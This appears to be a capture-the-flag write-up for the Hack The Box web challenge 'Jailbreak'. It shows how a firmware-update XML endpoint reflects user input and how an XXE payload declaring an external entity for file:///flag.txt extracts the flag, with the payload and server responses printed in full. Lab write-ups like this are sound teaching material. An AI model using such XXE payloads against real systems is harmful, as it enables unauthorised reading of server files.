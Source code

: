 ```yaml
---
title: Jailbreak - Hack The Box
date: 2024-12-27
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Jailbreak

![Jailbreak - thumbnail](/ctf/hack-the-box/challenges/web/jailbreak/thumbnail.gif){style="width: 200px; height: 300px; display: block; margin: 0 auto;"}

## Challenge Description

The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily
guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device.

## Challenge Overview

This challenge simulates the **Fallout Pip-Boy** interface, providing various interactive pages such as Stats,
Inventory, Data, Map, Radio, and Rom. The focus of this challenge is the **Rom** page, where the application accepts XML
data to simulate a firmware update.

![Jailbreak - Overview](/ctf/hack-the-box/challenges/web/jailbreak/overview.png)

## Enumeration

### Initial Observation

On the **Rom** page, users can upload XML data for a firmware update. When XML data is submitted, the server processes
it and returns a success message indicating the initiation of the firmware update.

Example XML payload:

```xml

<FirmwareUpdateConfig>
    <Firmware>
        <Version>3.0</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
</FirmwareUpdateConfig>
```

### Server Response

Upon sending the above payload, the server returns the following JSON response:

```json
{
    "message": "Firmware version 3.0 update initiated."
}
```

#### Behavior Analysis

- The `Version` tag value from the XML payload is directly reflected in the response message.
- This behavior suggests the application parses the XML and uses its content dynamically in the response, making it a
  candidate for **XXE injection**.

## Exploitation: XML External Entity (XXE) Injection

The application processes user-supplied XML without sanitization, making it vulnerable to XXE. By crafting a malicious
payload, we can instruct the server to read sensitive files such as `/flag.txt`.

### Crafting the XXE Payload

To exploit the XXE vulnerability, we inject an external entity that points to the `/flag.txt` file. The `<Version>` tag
is used as the injection point to return the file's content in the server's response.

Malicious XML payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
    ]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
    </Firmware>
</FirmwareUpdateConfig>
```

### Payload Explanation

1. **Document Type Declaration (DTD):**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "file:///flag.txt">
   ]>
   ```
    - Defines an external entity `xxe` pointing to the file `/flag.txt`.

2. **Entity Injection:**
   ```xml
   <Version>&xxe;</Version>
   ```
    - References the `xxe` entity in the `<Version>` tag.

3. **Server Behavior:**
    - The server parses the XML payload, resolves the `xxe` entity, and includes the content of `/flag.txt` in the
      response.

### Retrieving the Flag

Upon sending the XXE payload to the server, the response includes the contents of the `/flag.txt` file within the
`message` field:

```json
{
    "message": "Firmware version HTB{f4k3_fl4g} update initiated."
}
```

We successfully exploited the XXE vulnerability to retrieve the flag! 🎉

<ChallengeCard 
    challengeType="web" 
    challengeName="Jailbreak"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/728"
/>

## References

- [OWASP - XML External Entity (XXE)](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
- [PortSwigger - What is XXE?](https://portswigger.net/web-security/xxe)
- [XML DTD and Entities](https://www.w3.org/TR/REC-xml/#sec-prolog-dtd)
